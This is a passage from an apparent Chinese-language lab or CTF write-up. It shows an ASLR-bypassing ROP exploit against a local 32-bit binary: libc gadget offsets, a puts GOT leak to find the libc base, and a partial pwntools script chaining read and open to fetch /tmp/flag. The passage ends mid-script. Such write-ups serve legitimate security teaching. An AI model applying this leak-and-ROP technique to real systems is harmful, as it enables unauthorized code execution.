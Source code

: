 libc内PPR偏移地址：0x3958a

![image-20230421155049498](assets/image-20230421155049498.png)

libc内PPPR偏移地址：0x4cab8

![image-20230421155130288](assets/image-20230421155130288.png)

从标准输入中读入/tmp/flag字符串，写入writable_addr内

### 1.2.2 payload构造

1. 通过调用puts函数，输出puts函数的地址，计算libc的基地址
2. 调用read(0, writable_addr, len("/tmp/flag"))
3. 调用open("/tmp/flag", 0)
4. 调用read(3, writable_addr, 10)
5. 调用write(1, writable_addr, 10)

**最后从标准输入中写入/tmp/flag字符串**

### 1.2.3 完整代码

pwn32_ASLR.py

```python
from pwn import *
# 
io = process('./a32.out')
elf = ELF('./a32.out')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# PR in elf
PR = 0x0804901e
# relative address of libc
PPR = 0x3958a
PPPR = 0x4cab8
writable_addr = 0x804c700
# debug
# gdb.attach(io, "b *(start+163)") # we can raise a debug interface here
# 1: get the address of puts and calculate the base address of libc
payload = cyclic(76) 
payload += p32(elf.plt['puts'])
payload += p32(PR)
payload += p32(elf.got['puts'])
payload += p32(elf.symbols['start'])
io.sendlineafter(b'Password:', payload)
io.recvuntil(b'Password!\n')
puts_addr = u32(io.recv(4))
base_addr = puts_addr - libc.symbols['puts']
# print('puts_addr = ', hex(puts_addr))
# print('base_addr = ', hex(base_addr))
# 2: get the flag
payload = cyclic(76) 
# read the "/tmp/flag" into the writable_addr
# read(0, writable_addr, len("/tmp/flag"))
payload += p32(base_addr + libc.symbols['read'])
payload += p32(base_addr + PPPR)
payload += p32(0)
payload += p32(writable_addr)
payload += p32(len("/tmp/flag"))
# open the /tmp/flag
# open("/tmp/flag", 0)
```